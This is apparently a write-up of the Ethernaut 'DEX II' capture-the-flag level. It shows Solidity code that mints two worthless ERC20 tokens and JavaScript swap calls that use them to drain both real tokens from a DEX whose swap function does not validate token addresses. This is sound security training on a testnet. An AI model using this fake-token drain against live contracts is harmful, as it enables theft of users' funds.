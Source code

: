 # [23. DEX II](https://ethernaut.openzeppelin.com/level/0x5026Ff8C97303951c255D3a7FDCd5a1d0EF4a81a)

Here we have another DEX similar to the previous level, but this one requires both tokens to be depleted. There is one subtle yet crucial difference within the `swap` function, it does not check the validity of token addresses! In the previous one, we had a `require` statement checking that both `from` and `to` tokens are that of either tokens the DEX is responsible of. This gives us an idea of an attack, creating our own tokens and somehow use them to drain the DEX of its tokens.

Again, we have 10 of each token and the DEX has 100 of each. We will create Token 3 and Token 4, and let DEX have 100 of each. We will then make the following trades:

- Send 100 Token 3 to get 100 Token 1. Since the DEX balance of both `to` and `from` tokens are the same, the swap amount will be equal to the amount we set.
- Send 100 Token 4 to get 100 Token 2. Since the DEX balance of both `to` and `from` tokens are the same, the swap amount will be equal to the amount we set.

This way, the tokens will be depleted by our worthless and arbitrarily created tokens! We use Remix to create [Token 3](0xF25aEe0A68c3EC602F0bDD9E45F062dF611F774B) and [Token 4](https://rinkeby.etherscan.io/address/0xc975954d79412d58746240c536220192485AECBB):

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol";

contract MyToken3 is ERC20 {
  constructor() ERC20("MyToken3", "MT3") {
    _mint(msg.sender, 1000);
  }
}
contract MyToken4 is ERC20 {
  constructor() ERC20("MyToken4", "MT4") {
    _mint(msg.sender, 1000);
  }
}
```

After deploying the tokens, transfer 100 of each token to the DEX address, and also give an allowance of 100 of both tokens to the DEX. The actual trades are then simply as follows:

```js
// settings
const amount = 100
const T1 = await contract.token1()
const T2 = await contract.token2()
const T3 = "0xF25aEe0A68c3EC602F0bDD9E45F062dF611F774B" // my Token 3
const T4 = "0xc975954d79412d58746240c536220192485AECBB" // my Token 4

// deplete Token 1
// DEX must have 'amount' T3, and also 'amount' allowance to take T3 from you
await contract.swap(T3, T1, amount)
// deplete Token 2
// DEX must have 'amount' T4, and also 'amount' allowance to take T4 from you
await contract.swap(T4, T2, amount)
```

To confirm the depletion, check the balances:

```js
(await contract.balanceOf(await contract.token1(), contract.address)).toNumber()
(await contract.balanceOf(await contract.token2(), contract.address)).toNumber()
```

That is all!
